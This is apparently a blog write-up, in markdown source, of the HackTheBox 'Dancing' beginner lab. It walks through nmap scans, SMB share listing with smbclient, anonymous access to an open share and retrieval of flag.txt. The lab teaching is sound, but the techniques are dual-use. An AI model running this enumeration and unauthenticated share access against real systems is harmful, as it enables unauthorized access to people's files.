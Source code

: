 ```yaml
---
title: Windows Hacking for Beginners - The Dancing Box
date: 2023-10-18 00:00:00 -500
categories: [Hacking for Beginners, Boot2root CTFs]
tags: [CTFs, HTB, Easy, Hacking]
image:
    path: https://i.ibb.co/tzxvvNV/dancing-HTB.jpg
---
```

Hello Everyone, In this blog, I will guide you through the steps to solve the ***Dancing*** machine, part of the **Starting Point** labs on HacktheBox. This machine has been classified `Free` and **Very Easy** making it an ideal choice for beginners looking to embark on their journey into the exciting world of ethical hacking.
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.
**Exploit the Lab [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
**Join TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

## Enumeration(Recon)

**First Basic Scan**
```terminal
└─# nmap 10.129.67.178               
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 35.64 seconds
```
In this initial step of enumeration, we employ the Nmap tool to scan the target machine, which is identified by the IP address `10.129.67.178`. The purpose of this scan is to discover open ports and services running on the target system.

**Second Scan**
In the second scan, we will use Nmap with version detection (`-sV`) and default scripts (`-sC`) to gather more information about the target.
```terminal
└─# nmap -sV -sC -Pn -p135,139,445 10.129.67.178
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h04m50s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-18T01:05:10
|_  start_date: N/A
```
 - The results show detailed service information for the open ports (135/tcp, 139/tcp, and 445/tcp), including their corresponding Windows services. This scan serves as a more comprehensive examination of the target's services, aiding in vulnerability assessment.

Here we found `SMB` port 139 and 445. for more about smb Hacking look at this : [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb).

**Enumerating Shares with smbclient**
Using the `smbclient` tool with the `-L` flag and the specified IP address, we perform a share enumeration on the target system.
```terminal
└─# smbclient -L $ip
Password for [WORKGROUP\bloman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk  
```
After providing the requested password, the command returns a list of accessible shares:

   - `ADMIN$`: This is a disk share used for remote administration.
   - `C$`: It's a disk share representing the default administrative share.
   - `IPC$`: This is an Inter-Process Communication share for remote IPC.
   - `WorkShares`: A disk share that may contain additional resources or information relevant to the system.

## Foothold
Let's try to connect on every share available, i begin with `ADMIN$`
```terminal
└─# smbclient  \\\\10.129.67.178\\ADMIN$    
Password for [WORKGROUP\bloman]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
This outcome suggests that access to the `ADMIN$` share is currently denied or restricted, which is a common security measure in Windows environments. Our next steps will involve further exploration to identify accessible shares.

Let's move on to the share `C$`
```terminal
└─# smbclient  \\\\10.129.67.178\\C$
Password for [WORKGROUP\bloman]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
Same output. Let's move to WorkShares.
```terminal
└─# smbclient  \\\\10.129.67.178\\WorkShares
Password for [WORKGROUP\bloman]:
Try "help" to get a list of possible commands.
```
Upon moving to the `WorkShares share`, we successfully establish a connection.
```terminal
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
cd 
		5114111 blocks of size 4096. 1747687 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

```
we can list the contents of the share. The share contains subdirectories, and we navigate to the `James.P` directory.
```terminal
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> 
```
In the `James.P` directory, we find a file named `flag.txt` last modified on March 29, 2021. This discovery is significant as it could potentially lead to gaining access to sensitive information or serve as an entry point for further exploitation and privilege escalation on the target system. The presence of `flag.txt` piques our interest, and we proceed to examine its contents.
### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
